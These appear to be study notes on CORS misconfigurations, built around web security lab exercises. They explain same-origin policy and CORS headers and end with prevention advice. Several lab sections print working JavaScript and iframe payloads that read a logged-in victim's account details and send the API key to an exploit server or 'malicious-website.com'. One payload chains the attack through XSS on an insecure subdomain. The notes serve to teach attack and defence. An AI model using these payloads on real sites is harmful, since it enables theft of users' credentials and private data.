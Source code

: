 
- CORS relaxes the **same-origin policy (SOP)**. Misconfigured CORS policies lead to information leaks, authentication bypass and account takeover.

#### Same-Origin Policy

- The same-origin policy is a restrictive cross-origin specification that limits the ability for a website to interact with resources outside of the source domain.
- It generally allows a domain to issue requests to other domains, but not to access the responses.
- Cross-origin loading of page resources is generally permitted. For example, the SOP allows embedding of images via the `<img>` tag, media via the `<video>` tag and JavaScript via the `<script>` tag. However, while these external resources can be loaded by the page, any JavaScript on the page won't be able to read the contents of these resources.
- Cookies are often accessible from all subdomains of a site even though each subdomain is technically a different origin. You can partially mitigate this risk using the `HttpOnly` cookie flag.

![[Schermata del 2024-11-19 14-57-24.png]]

- A script from page A can access data from page B only if the pages are on the same origin.
- SOP protects cookies (like session cookies).

## How does CORS work?

- The cross-origin resource sharing protocol uses a suite of HTTP headers that define trusted web origins and associated properties such as whether authenticated access is permitted.
- The `Access-Control-Allow-Origin` header is included in the response from one website to a request originating from another website and identifies the permitted origin of the request. A web browser compares the Access-Control-Allow-Origin with the requesting website's origin and permits access to the response if they match.
- Usually when we send a request from a website `normal-website.com` to another domain `robust-website.com` the browser puts in the request the following header to make the server know what's the *origin* of the request:

```http
Origin: https://b.example.com
```

The request would be like this:

```http
GET /data HTTP/1.1
Host: robust-website.com 
Origin: https://normal-website.com
```

If `robust-website.com` uses SOP, then its response is dropped when arrives at the web browser.
If instead it uses CORS, the server on `robust-website.com` returns the following response:

```http
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://normal-website.com
```

The browser will allow code running on `normal-website.com` to access the response because the origins match.

The specification of `Access-Control-Allow-Origin` allows for multiple origins, or the value `null`, or the wildcard `*`.

- The default behavior of cross-origin resource requests is for requests to be passed without credentials like cookies and the Authorization header. However, the cross-domain server can permit reading of the response when credentials are passed to it by setting the CORS `Access-Control-Allow-Credentials` header to true.

###### Request
```http
GET /data HTTP/1.1 
Host: robust-website.com 
... 
Origin: https://normal-website.com 
Cookie: JSESSIONID=<value>
```
###### Response
```http
HTTP/1.1 200 OK 
... 
Access-Control-Allow-Origin: https://normal-website.com 
Access-Control-Allow-Credentials: true
```


## Vulnerabilities and common mistakes


###### Lab: CORS vulnerability with basic origin reflection 
```html
<script>  
fetch('https://0afa00b803fd481c83315b74001800f2.web-security-academy.net/accountDetails', {credentials:'include'})  
.then(r => r.json())  
.then(j => j.apikey)  
.then(key => new Image().src = 'https://exploit-0a8400fa03dc48d983915a59015a001f.exploit-server.net/landing?key=' + key)  
</script>
```

or: 
```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; 
req.send();

function reqListener() { 
	location='//malicious-website.com/log?key='+this.responseText; 
};
</script>
```

#### Whitelisted null origin value

The Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:

- Cross-origin redirects.
- Requests from serialized data.
- Request using the `file:` protocol.
- Sandboxed cross-origin requests.

Some applications might whitelist the `null` origin to support local development of the application. 
In this situation, an attacker can use various tricks to generate a cross-origin request containing the value `null` in the Origin header. This will satisfy the whitelist, leading to cross-domain access.

##### Lab: CORS vulnerability with trusted null origin
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script> 
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; req.send(); 
function reqListener() { 
location='malicious-website.com/log?key='+this.responseText; 
}; 
</script>"></iframe>
```

or:
```html
<iframe sandbox='allow-scripts' srcdoc="  
<script>  
fetch('https://0a410099045171e580469e84007f0045.web-security-academy.net/accountDetails', {credentials:'include'})  
.then(r => r.json())  
.then(j => j.apikey)  
.then(key => new Image().src = 'https://exploit-0a6f009f04b871d680409dd001e90071.exploit-server.net/landing?key=' + key)  
</script>  
"></iframe>
```

#### Exploiting XSS via CORS trust relationships

If a website trusts an origin that is vulnerable to cross-site scripting ([[XSS (Cross-Site Scripting)]]), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

#### Breaking TLS with poorly configured CORS

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP.
In this situation, an attacker who is in a position to intercept a victim user's traffic (*man-in-the-middle attack*) can exploit the CORS configuration to compromise the victim's interaction with the application.

##### Lab: CORS vulnerability with trusted insecure protocols
```html
<script>  
location = 'http://stock.0aff008c0471a03181e3434c00ad00c8.web-security-academy.net/?storeId=1&productId=<script>' +  
`fetch('https://0aff008c0471a03181e3434c00ad00c8.web-security-academy.net/accountDetails', {credentials:'include'}).then(r => r.json()).then(j => j.apikey).then(key => new Image().src = 'https://exploit-0abc00170467a065818e42b2012e0081.exploit-server.net/landing?key=' %2B key)` +  // don't forget to URLEncode the + (otherwise, it is a space)  
'<' + '/script>'  // or encode the < as %3C  
</script>
```

Here, we've found a HTTP subdomain `http://stock.0aff008c0471a03181e3434c00ad00c8.web-security-academy.net/?storeId=1&productId=1` where `productId` suffers of XSS and the main domain `https://0aff008c0471a03181e3434c00ad00c8.web-security-academy.net/` CORS configuration accepts requests from the vulnerable stock subdomain. Hence, we can inject code (XSS) that forces the victim to make a request from the stock subdomain to the main domain, making the victim unconsciously sending us the apiKey.

## Prevention

- Specify the Access-Control-Allow-Origin header if the response contains sensitive data
- Think if you really need `Access-Control-Allow-Origin: *`
- Double think if you really need `Access-Control-Allow-Credentials: true`
- Use allow lists
- Don’t allow the origin null